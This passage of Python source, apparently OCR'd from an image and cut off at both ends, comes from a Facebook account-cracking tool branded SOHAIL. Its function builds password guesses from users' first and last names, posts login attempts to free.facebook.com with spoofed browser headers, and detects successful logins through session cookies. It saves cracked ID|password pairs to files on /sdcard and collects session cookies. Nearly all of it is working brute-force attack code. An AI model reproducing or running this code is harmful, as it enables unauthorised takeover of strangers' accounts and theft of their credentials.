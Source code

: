                                 kuki = (f";").join([ "%s=%s" % (key, value) for key, value in session.cookies.get_dict().items() ])
                                print(f'\r\r\033[1;32m [SOHAIL-OK] %s | %s'%(ids,pas))
                                #cek_apk(session,coki)
                                open(f'/sdcard/SOHAIL-OK.txt', 'a').write(ids+'|'+pas+'\n')
                                oks.append(ids)
                                break
                        elif 'checkpoint' in Shahin:
                                if 'y' in pcp:
                                        print(f'\r\r\x1b[38;5;126m [SOHAIL-CP] '+ids+' | '+pas+'\033[1;97m')
                                        open(f'/sdcard/SOHAIL-CP.txt', 'a').write(ids+'|'+pas+'\n')
                                        cps.append(ids)
                                        break
                                else:
                                        break
                        else:
                                continue
        except requests.exceptions.ConnectionError:
                time.sleep(20)
        loop+=1
def ffb3(ids,names,passlist):
        global loop,oks,cps
        sys.stdout.write(f'\r\r\033[1;37m [SOHAIL1x1] %s|\033[1;32mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
        session = requests.Session()
        try:
                first = names.split(f' ')[0]
                try:
                        last = names.split(f' ')[1]
                except:
                        last = 'Ahmed'
                ps = first.lower()
                ps2 = last.lower()
                for fikr in passlist:
                        pas = fikr.replace(f'First',first).replace(f'Last',last).replace(f'first',ps).replace(f'last',ps2)
                        ua=random.choice(ugen)
                        head = {'Host': 'free.facebook.com', 'viewport-width': '980', 'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"', 'sec-ch-ua-mobile': '?1', 'sec-ch-ua-platform':'"Android"', 'sec-ch-prefers-color-scheme': 'light', 'dnt': '1', 'upgrade-insecure-requests': '1', 'user-agent': ua, 'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9', 'sec-fetch-site': 'none', 'sec-fetch-mode': 'navigate', 'sec-fetch-user': '?1', 'sec-fetch-dest': 'document', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-US,en;q=0.9'}
                        getlog = session.get(f'https://free.facebook.com/login/device-based/password/?uid={ids}&flow=login_no_pin&refsrc=deprecated&_rdr')
                        idpass ={"lsd":re.search(f'name="lsd" value="(.*?)"', str(getlog.text)).group(1),"jazoest":re.search(f'name="jazoest" value="(.*?)"', str(getlog.text)).group(1),"uid":ids,"next":"https://mbasic.facebook.com/login/save-device/","flow":"login_no_pin","pass":pas,}
                        complete = session.post(f'https://free.facebook.com/login/device-based/validate-password/?shbl=0',data=idpass,allow_redirects=False,headers=head)
                        Shahin=session.cookies.get_dict().keys()
                        if "c_user" in Shahin:
                                coki=session.cookies.get_dict()
                                kuki = (f";").join([ "%s=%s" % (key, value) for key, value in session.cookies.get_dict().items() ])
                                print(f'\r\r\033[1;32m [SOHAIL-OK] %s | %s'%(ids,pas))
                                open(f'/sdcard/SOHAIL-OK.txt', 'a').write(ids+'|'+pas+'\n')
                                #cek_apk(session,coki)
                                oks.append(ids)
                                break
                        elif 'checkpoint' in Shahin:
                                if 'y' in pcp:
                                        print(f'\r\r\x1b[38;5;126m [SOHAIL-CP] '+ids+' | '+pas+'\033[1;97m')
                                        open(f'/sdcard/SOHAIL-CP.txt', 'a').write(ids+'|'+pas+'\n')
                                        cps.append(ids)